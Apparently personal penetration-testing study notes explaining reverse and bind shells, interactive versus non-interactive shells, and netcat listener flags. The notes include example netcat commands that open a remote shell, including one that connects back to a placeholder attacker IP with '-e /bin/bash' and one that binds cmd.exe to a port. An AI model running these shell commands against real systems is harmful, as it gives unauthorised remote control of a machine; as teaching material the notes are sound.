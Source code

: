 		3. https://github.com/danielmiessler/SecLists

-----

Types of shells  :

1. Reverse Shell: 

		in these type of connections the target tries to connect back to us on a port where we will be listening for connections 

		these shells can bypass firewalls as not extra port is being opened on the target 

		we will have to configure our network correctly so that the target can connect back to us 

		example : 

			setting up a listener port - <nc -nlvp 6969>

			on the target - <nc "attacker_ip" "attacker's port" -e /bin/bash>

2. Bind Shell: 

		in these type of connection target sets us a listening port for us where we connect to gain a shell

		these shells can easily be blocked by firewalls as arbitrary opened ports are blocked by firewall

		we do not need to configure our network for listening as we are the one initiating the connection 

		example : 

				on target machine set up a listener - <nc -lnvp "port" -e cmd.exe>

				connecting from attacker's machine <nc "target_ip" "target's port">

furtheremore these shells can be divided into two categories - 

		1. interactive shells - These allow you to interact with programs after executing them.

		2. non-interactive shells - In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, 


---------


Netcat : 

Netcat is the most basic tool in a pentester's toolkit when it comes to any kind of networking

The syntax for starting a netcat listener using Linux is this:

	nc -lvnp <port-number>

	-l is used to tell netcat that this will be a listener

	-v is used to request a verbose output

	-n tells netcat not to resolve host names or use DNS

	-p -p indicates that the port specification will follow.

you can use any port as you please until and unless it is free and not being used by anyone else.
